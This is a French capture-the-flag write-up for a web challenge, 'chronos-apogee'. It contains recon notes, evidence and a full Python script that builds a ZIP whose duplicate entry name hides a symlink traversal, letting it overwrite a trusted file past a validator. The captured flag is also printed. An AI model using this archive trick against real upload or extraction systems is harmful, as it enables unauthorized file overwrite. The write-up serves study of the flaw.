



# Writeup : chronos-apogee

Catégorie : web

Date de résolution : 2026-11-06

Technique principale : ZIP duplicate-name plus symlink traversal

Outils observés : curl,Python,CTFd API

Cible : https://2026.chronos-security.ro challenge 9100

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-apogee. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Pourquoi ça marche

Flag extracted from the duplicate-name/symlink ZIP exploit and submitted; CTFd returned Correct; solved_by_me=true.

### Notes locales conservées

# Apogee (9100) :  notes

## Triage / recon

1. Instance dédiée : `http://w01.ctf.chronos-security.ro:33343`.
2. Portal `Apogee-Portal 1.4 (build orrin3-gs)`; role `duty flight-dynamics analyst (read-only, sandboxed re-submission)`.
3. Published API: `/api/v1/schema`, `/reference/clock`, `/reference/vendors`, `/reference/validated`, `/deliveries`, `/journal`, `/api/v1/status`, `/api/v1/submissions`, `/api/v1/pass/receipt`.
4. Trusted current path: `/tmp/apogee/trusted/mvr/orrin3.ctab`, SHA-256 `633da0c389a1eb93a769e64bc98097fcf70c37b8b4b0809ebbd2e45b25cf324e`, size 890.
5. Validated original is exposed at `/reference/validated`; expected SHA-256 from receipt: `ad93e1eb775e235250b95fb4223d0898f4676b047b65942db665a7396f51eabb`.

## Hypotheses / tests

1. ZIP duplicate-name + symlink overwrite (high): archive order `symlink tables/orrin3.ctab -> ../../../trusted/mvr/orrin3.ctab`, then regular entry with the validated bytes. Validator lookup-by-name selects the regular duplicate; extractor honors the symlink and writes through it. Test via analyst multipart route.
2. Direct path traversal: ruled out by `E_PATH_UNSAFE` and the published structural rules.
3. Vendor accreditation bypass: unnecessary; analyst route is already authorized and the historical journal proves the duplicate-name primitive.

## Evidence

9. Historical accepted `PKG-2081` has 7 archive entries but 6 manifest members; journal lists `tables/orrin3.ctab` twice and records it as a symlink resolving to the trusted path.
10. The current trusted table is the hostile revision 44 content; `/reference/validated` is the 14-entry revision 43 original.

## Résolution vérifiée

11. `POST /api/v1/submissions` accepted `ANL-APOGEE-RESTORE`; extraction processed both duplicate names and resolved the symlink to the trusted store.
12. Trusted table became SHA-256 `ad93e1eb775e235250b95fb4223d0898f4676b047b65942db665a7396f51eabb`, size 841.
13. Receipt unlock input: `apogee|ORRIN-3|ad93e1eb775e235250b95fb4223d0898f4676b047b65942db665a7396f51eabb|ANL-APOGEE-RESTORE`.
14. Receipt release token was extracted and submitted to CTFd; response `status=correct` and API verification `.data.solved_by_me=true`.


## Journal
15. 2026-11-06T14:42:35Z unknown : Instance dédiée 33343; zip duplicate-name symlink restore accepté; receipt réel CSCTF{HDN262iHs4wOOwiTcdwu5gsm}; CTFd première soumission ratelimited, en attente de fenêtre pour resoumettre.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-apogee
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Build the Apogee duplicate-name/symlink restore package.

The HTTP submission is intentionally kept outside this builder so the endpoint,
CSRF/session handling, and the extracted flag receipt remain visible in shell
logs.  Run this script from the challenge directory, then submit restore.zip.
"""
from __future__ import annotations

import hashlib
import json
import stat
import zipfile
from pathlib import Path


ROOT = Path(__file__).resolve().parent
VALIDATED = ROOT / "validated.ctab"
MANIFEST = ROOT / "manifest.json"
PACKAGE = ROOT / "restore.zip"
TABLE_NAME = "tables/orrin3.ctab"
TARGET = "../../../trusted/mvr/orrin3.ctab"


def main() -> None:
    table = VALIDATED.read_bytes()
    digest = hashlib.sha256(table).hexdigest()
    manifest = {
        "accreditation": "ANALYST-RESUBMISSION",
        "created": "2026-11-06T14:40:10Z",
        "members": [{"path": TABLE_NAME, "sha256": digest, "size": len(table), "type": "file"}],
        "package_id": "ANL-APOGEE-RESTORE",
        "spacecraft": "ORRIN-3",
        "table": "orrin3.ctab",
        "vendor": "NSOC Analyst Desk",
    }
    MANIFEST.write_text(json.dumps(manifest, indent=2) + "\n")

    with zipfile.ZipFile(PACKAGE, "w", compression=zipfile.ZIP_STORED) as zf:
        # First duplicate: symlink, honored by the challenge extractor.
        link = zipfile.ZipInfo(TABLE_NAME)
        link.create_system = 3
        link.external_attr = (stat.S_IFLNK | 0o777) << 16
        zf.writestr(link, TARGET.encode())
        # Second duplicate: validator's by-name lookup selects this entry.
        regular = zipfile.ZipInfo(TABLE_NAME)
        regular.create_system = 3
        regular.external_attr = (stat.S_IFREG | 0o644) << 16
        zf.writestr(regular, table)

    print(f"validated_size={len(table)}")
    print(f"validated_sha256={digest}")
    print(f"package={PACKAGE} bytes={PACKAGE.stat().st_size}")
    print(f"manifest={MANIFEST}")
    with zipfile.ZipFile(PACKAGE) as zf:
        print("archive_entries=" + repr([(i.filename, i.external_attr >> 16) for i in zf.infolist()]))


if __name__ == "__main__":
    main()
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{HDN262iHs4wOOwiTcdwu5gsm}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
